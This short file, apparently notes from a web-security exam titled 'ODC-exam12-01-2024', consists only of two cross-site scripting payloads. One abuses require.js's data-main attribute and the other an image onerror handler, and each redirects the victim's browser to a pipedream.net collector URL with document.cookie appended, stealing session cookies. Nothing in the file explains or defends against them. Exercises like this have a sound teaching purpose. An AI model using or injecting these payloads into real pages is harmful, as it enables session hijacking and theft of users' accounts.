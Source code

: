# ODC-exam12-01-2024

<script data-main='data:1,(location.href="https://enlf46zz5ax8h.x.pipedream.net"+document.cookie)' src='require.js'></script>
<img src=x onerror="location.href='https://enanl0180cthw.x.pipedream.net/'+document.cookie">


